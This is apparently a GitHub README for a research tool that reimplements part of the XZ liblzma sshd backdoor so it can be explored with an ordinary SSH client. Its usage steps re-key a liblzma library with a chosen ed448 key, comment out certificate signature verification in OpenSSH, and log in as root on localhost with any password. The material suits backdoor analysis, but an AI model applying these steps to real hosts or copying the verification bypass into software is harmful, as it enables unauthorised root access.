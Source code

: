 # Jia Tan's SSH Agent

Simple SSH Agent that implements some of the XZ sshd backdoor functionality.

For those who want to more easily explore the backdoor using a typical SSH client.

![demo](assets/demo.png)

## Usage

- Generate your own ed448 private key
  - `openssl genpkey -algorithm ED448 -outform PEM -out privkey.pem`
- Patch your liblzma.so with the ed448 pubkey
  - `python3 scripts/patch_liblzma.py privkey.pem liblzma.so liblzma_patched.so`
- Patch your SSH client to skip verification of the certificate:
  - Look for this section in openssh's `sshkey.c` and commment it out:
  ```c
  if ((ret = sshkey_verify(key->cert->signature_key, sig, slen,
             sshbuf_ptr(key->cert->certblob), signed_len, NULL, 0, NULL)) != 0)
  {
  	goto out;
  }
  ```
- `python3 -m virtualenv venv && . venv/bin/activate && pip install -r requirements.txt`
- `python3 agent.py /tmp/agent ./privkey.pem`
- `SSH_AUTH_SOCK=/tmp/agent ./ssh root@localhost`
- log in with any password :)

-- blasty `<peter@haxx.in>`
